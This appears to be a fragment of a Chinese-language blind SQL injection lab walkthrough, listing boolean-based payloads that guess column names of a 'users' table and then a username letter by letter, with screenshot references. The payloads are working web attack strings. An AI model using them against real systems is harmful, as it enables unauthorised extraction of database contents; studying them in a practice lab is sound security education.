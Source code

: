   - 1’ and ascii(substr((select column_name from information_schema.columns where table_name=’users’ limit 2,1),1))=101 #   //e

  <img src="img\sql-blind13.jpg" alt="sql-blind13" style="zoom:67%;" />

  - 1’ and ascii(substr((select column_name from information_schema.columns where table_name=’users’ limit 3,1),1))=114 #   //r

  <img src="img\sql-blind14.jpg" alt="sql-blind14" style="zoom:67%;" />

- 猜解数据（admin）

  - 1’ and ascii(substr((select user from users limit 0,1)1,1))=97 #   //a
